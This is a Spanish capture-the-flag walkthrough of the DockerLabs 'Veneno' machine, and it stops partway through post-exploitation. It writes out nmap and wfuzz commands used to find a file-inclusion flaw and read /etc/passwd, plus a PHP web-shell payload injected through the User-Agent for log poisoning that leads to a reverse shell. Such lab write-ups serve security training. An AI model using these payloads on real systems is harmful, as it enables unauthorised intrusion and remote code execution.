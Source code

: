 # Veneno

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Veneno`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_1.png)  

Hay dos puertas abiertas, la 22 y la 80.  
Echemos un vistazo a la web.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_2.png)  

Podemos ver la página por defecto de apache2 y tampoco encontramos nada de interés en el código fuente de la página.  
Por lo tanto, vamos a hacer un poco de fuzzing.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_3.png)    

Descubrimos una nueva ruta, /uploads, a la que tenemos acceso, pero que no contiene nada.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_4.png)     
  
También vemos otra página, /problems.php, que, a primera vista, parecería ser la misma que la página de inicio.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_5.png)    

Intentemos ver si esta página es vulnerable a un ataque LFI (Local File Inclusion).  
Ejecutamos el comando:  

`sudo wfuzz -c -L -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hl=363 "http://172.17.0.2/problems.php?FUZZ=/../../../../../etc/passwd"`

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_6.png)      

¡Así es!  
Podemos ver que hay un usuario, **carlos**.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_7.png)   

A continuación intentamos realizar una fuerza bruta con hydra pero no obtenemos resultados.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_8.png)   

Ejecutamos entonces este comando para ver si tenemos accesos a los logs para intentar ejecutar un ataque de log poisoning.  

`sudo wfuzz -c --hc=404 --hw=0 -t 200 -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://172.17.0.2/problems.php?backdoor=FUZZ' 

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_9.png)     

Sí, tenemos acceso a los logs de apache, así que intentaremos llevar a cabo este ataque con el objetivo de enviar una shell inversa a nuestra máquina atacante.  
Primero tendremos que abrir el Burp Suite e interceptar la petición.  
Para ello interceptaremos la petición a la página (http://172.17.0.2/problems.php?backdoor=/var/log/apache2/access.log.  
Ahora modificaremos el campo User Agent con la cadena:   

`<?php system($_GET['cmd']); ?>`   

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_10.png)     

Ahora añadiremos un **&cmd** al final pasandole una reverse shell en php url encodeada y nos pondremos a la escucha en nuestra maquina atacante.     

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_11.png)   

Bien, estamos dentro.  
Ahora haremos el tratamiento de la shell para poder trabajar de forma más comoda.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_12.png) 
![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_13.png)    

Hacemos un ls para listar los ficheros de la carpeta donde nos encontramos y vemos que hay un fichero interesante.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_14.png)    

Buscamos entonces si hay algun fichero en formato texto que nos podría venir bien.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_15.png)      




















